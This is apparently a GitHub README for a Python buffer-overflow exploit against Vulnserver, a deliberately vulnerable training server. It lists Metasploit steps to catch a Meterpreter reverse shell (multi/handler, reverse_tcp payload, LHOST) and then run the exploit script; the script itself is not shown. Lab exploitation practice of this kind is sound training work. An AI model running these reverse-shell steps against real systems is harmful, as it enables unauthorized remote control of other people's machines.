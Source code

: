 # Buffer-OverFlows-Attack - VULNSERVER
this is a python code to get a reverse Shell by Buffer Overflows Attack !!!!  


to get a reverse shell 
1)use multi/handler
2)set PAYLOAD windows/meterpreter/reverse_tcp 
3)set LHOST <IP>
4)exploit 
5)Edit the Vulnserver IP and PORT according to you 
6)open up a terminal and type:
  python3 exploit.py 
